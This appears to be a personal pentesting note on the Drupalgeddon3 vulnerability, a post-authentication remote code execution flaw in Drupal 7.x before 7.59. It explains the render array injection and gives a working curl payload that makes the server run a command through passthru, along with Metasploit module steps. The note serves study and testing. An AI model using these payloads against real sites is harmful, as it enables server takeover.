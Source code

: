 - Critical post-authentication RCE.
- Affects `Drupal 7.x < 7.59`.
- Requires basic authenticated access.
- Exploits a render callback vulnerability to execute PHP code.
# Vulnerability

- Render array system allowed some injection paths when certain internal objects were mishandled.
- Attackers leverage form previous to inject render array with dangerous callbacks:
	- `#post_render`
	- `#lazy_builder`
- Injection occurs during form validation and rendering stages - results in code exec.
# Exploitation

- Prerequisites:
	- valid authenticated user.
	- access to a previewable form.
- Send a POST to a previewable form with payloads like:
	- `#post_render[] = passthru`
	- `#markup = id`
	- An example:
		- `curl -X POST http://target/?q=comment/reply/1 -b "SESS<cookie>" --data "form_id=comment_form&comment_body[und][0][value][#post_render][]=passthru&comment_body[und][0][value][#markup]=id" `
- Using [[Metasploit]]:
	- `use exploit/unix/webapps/drupal_drupalgeddon3`
	- `set RHOSTS http://target`
	- `set USERNAME user`
	- `set PASSWORD pass`
	- `run`

